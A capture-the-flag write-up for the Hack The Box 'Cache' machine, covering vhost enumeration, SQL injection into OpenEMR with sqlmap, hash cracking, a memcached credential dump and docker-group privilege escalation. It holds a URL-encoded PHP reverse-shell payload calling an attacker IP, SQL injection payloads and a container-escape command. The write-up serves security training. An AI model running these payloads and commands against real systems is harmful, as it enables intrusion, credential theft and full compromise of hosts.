



Cache is a medium difficulty box but it includes numerous techniques such as docker privilege escalation, VHOST enumeration and memcached exploit. 

<!--more-->

## HTB - cache
**Box** : cache\
**IP Address** : 10.10.10.188\
**Operating System** : Linux

## Remarks

- I was unaware of VHOST enumeration at the beginning and wasted a lot of time trying to bruteforce directories for the website
- Research on memcache exploits before starting this box!

## Enumeration
As with every other machine, we will start off by doing a Nmap scan on the IP address. For this machine, there is nothing special that can be discovered from the Nmap scan except for the fact that we have a web service running on port 80.

## Discovery

To start off, let's first add the IP address to our ```/etc/hosts``` file

```
10.10.10.188    cache.htb 
```
We will now try to enumerate the endpoints on ```http://cache.htb``` using Gobuster. From the results, we were able to discover a ```jquery``` endpoint that may contain possible jquery code that could be exploited.

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.188 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e! -k -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.188
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2021/08/22 00:16:18 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.10.188/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.188/javascript/]
http://10.10.10.188/jquery               (Status: 301) [Size: 313] [--> http://10.10.10.188/jquery/]
http://10.10.10.188/server-status        (Status: 403) [Size: 277] 
```

Visiting the ```/jquery``` endpoint, we found a ```functionality.js``` file that reveals the authentication algorithm for the website. From the code, we know that the username of ```ash``` and the password of ```H@v3_fun``` allows us to be authenticated.



However, after logging into the website, we were unable to find any possible attack vectors. All we can see is a page showing that the site is still under construction. Upon furthur exploration of the page, we discover a ```/author.html``` endpoint that tells us that the author is also involved in another project (Hospital Management Project(HMS)). So, we will try to add the following to our ```/etc/hosts``` file to see if there is another site that can be accessed.

```
10.10.10.188    cache.htb hms.htb hms.cache.htb cache.hms.htb
```

Now, we will do a scan with Nikto on ```http://hms.htb``` to uncover potential vulnerabilites. The scan picked up a publicly-accessible ```admin.php``` page that reveals sensitive information about the webpage. 



## Exploit 

From the discovery process, we noticed that OpenEmr is being used and research on OpenEmr leads us to CVE-2018-15152. Before we use the exploit, we will first have to look for the credential information that allows us to login to the website. Navigating to ```/portal/add_edit_events_user.php```, we realize that this page is vulnerable to SQL injection.

Using SQLMap, we were able to get the vulnerable site to dump out an ecnrypted password for the user ```openemr_admin```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sqlmap --cookie="PHPSESSID=mnf7afl4jmtovagi5p9p6jek63; OpenEMR=0k56dt9dj1qvcaopa9s2o804e7" --url=http://hms.htb/portal/add_edit_event_user.php?eid=1 --tables -D openemr -T users_secure --dump             2 ⚙
        ___
       __H__                                                                                                                                                                                                        
 ___ ___[']_____ ___ ___  {1.5.5#stable}                                                                                                                                                                            
|_ -| . ["]     | .'| . |                                                                                                                                                                                           
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                           
      |_|V...       |_|   http://sqlmap.org                                                                                                                                                                         

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:18:37 /2021-08-22/

[13:18:37] [INFO] resuming back-end DBMS 'mysql' 
[13:18:37] [INFO] testing connection to the target URL
[13:18:38] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (4734=4734) THEN 1 ELSE (SELECT 3571 UNION SELECT 7255) END))

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: eid=1 AND GTID_SUBSET(CONCAT(0x7171766a71,(SELECT (ELT(1610=1610,1))),0x717a707871),1610)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 5144 FROM (SELECT(SLEEP(5)))RrNB)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7171766a71,0x53474d4e7a6d6e57566c437a42576c726c62704a7267487849435667436d684d4d4d525941546858,0x717a707871),NULL-- -
---
[13:18:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.6
[13:18:38] [INFO] fetching tables for database: 'openemr'
Database: openemr
[13:18:38] [INFO] fetching columns for table 'users_secure' in database 'openemr'
[13:18:38] [INFO] fetching entries for table 'users_secure' in database 'openemr'
Database: openemr
Table: users_secure
[1 entry]
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| id | salt    | password                                                     | username | last_update         | salt_history1 | salt_history2 | password_history1              | password_history2 |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| 1  | <blank> | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | <blank>  | 2019-11-21 06:38:40 | <blank>       | <blank>       | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin     |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
```

Afterwards, we were able to successfully crack the password using John The Ripper, and the password was revealed to be xxxxxx

```
┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=rockyou.txt password.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2021-08-23 21:11) 7.692g/s 6646p/s 6646c/s 6646C/s tristan..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now, we will make use of the CVE mentioned earlier to trigger an arbitary PHP code execution from ```/portal/import_template```. All we have to do is to craft a single-line url-encoded PHP paylod, ```%3C%3Fphp%0A%0Aexec(%22%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.250%2F3001%200%3E%261%27%22)%3B```, which uploads a reverse shell to the vulnerable endpoint. We will then visit ```/portal/exploit.php``` to trigger the payload.



Next, all that is left for us to do is to stabilize the reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.188] 52156
bash: cannot set terminal process group (1603): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/portal$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<al$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cache:/var/www/hms.htb/public_html/portal$ export TERM=xterm
export TERM=xterm
www-data@cache:/var/www/hms.htb/public_html/portal$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@cache:/var/www/hms.htb/public_html/portal$ 
```

## Low-level privilege escalation

However, we realize that we are now ```www-data``` and does not have sufficient privileges to read the user flag.

```
www-data@cache:/$ cd /home/ash
cd /home/ash
www-data@cache:/home/ash$ ls
ls
Desktop  Documents  Downloads  Music  Pictures  Public  user.txt
www-data@cache:/home/ash$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@cache:/home/ash$ 
```

Recalling that we have obtained the credentials for ```ash``` previously, we will now try to login as ```ash``` and read the flag. 

```
www-data@cache:/home/ash$ su ash
su ash
Password: H@v3_fun

ash@cache:~$ cat user.txt
cat user.txt
<Redacted user flag>
ash@cache:~$
```

## High-level privilege escalation
First, we will check if the user ```ash``` has sudo privileges, and it seems that ```ash``` does not have the sufficient privileges to execute ```sudo``` commands.

```
ash@cache:~$ sudo -l
sudo -l
[sudo] password for ash: H@v3_fun

Sorry, user ash may not run sudo on cache.
```

Next, we will try to run the ```linpeas.sh``` script on the terminal. From the output, we were able to observe that ```apache2``` process stores credentials in memory. This gives us the idea that we could potentially use memcache exploits to extract the credentials of another privileged user. 

```
╔══════════╣ Processes with credentials in memory (root req)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#credentials-from-process-memory    
gdm-password Not Found                                                                           
gnome-keyring-daemon Not Found                                                                   
lightdm Not Found                                                                                
vsftpd Not Found                                                                                 
apache2 process found (dump creds from memory as root)                                           
sshd Not Found
```

From the output of ```linpeas.sh```, we were also able to uncover another user ```luffy```. What is interesting about ```luffy``` is that this user is a member of the ```docker``` group. This furthue gives us an idea that we can leverage on docker to obtain root privileges.

```
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

However, we will have to obtain the credentials of ```luffy``` first. To do that, we will first dump all the keys cached in the memory and from there, we will be able to obtain the password for ```luffy```

```
ash@cache:~$ telnet 127.0.0.1 11211
telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
stats cachedump 1 0
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
get user
get user
VALUE user 0 5
luffy
END
get passwd
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
quit
quit
Connection closed by foreign host.
```

Afterwards, we will su into ```luffy``, but we notice that this user is still unable to execute sudo command. Recalling that this user is part of the docker group. We will first check all the docker images and containers on the terminal. During the investigation, we realize that even though there is no running containers in the terminal, there is a ubuntu image that could be leveraged to obtain root privileges.

```
luffy@cache:~$ docker ps
docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
luffy@cache:~$ docker images
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        23 months ago       64.2MB
```

Lastly, we will execute the ubuntu image and break out of the container to obtain root privileges. We can then obtain the system flag with the root privileges.

```
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh                    
docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
# python3 -c 'import pty; pty.spawn("/bin/bash")'    
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@3bfb2314758:/# export TERM=xterm
export TERM=xterm
root@3bfb231b4758:/# stty cols 132 rows 34
stty cols 132 rows 34
root@3bfb231b4758:/# cd /root

cd /root
root@3bfb231b4758:~# 
root@3bfb231b4758:~# cat root.txt
cat root.txt
<Redacted root flag>
root@3bfb231b4758:~# 
```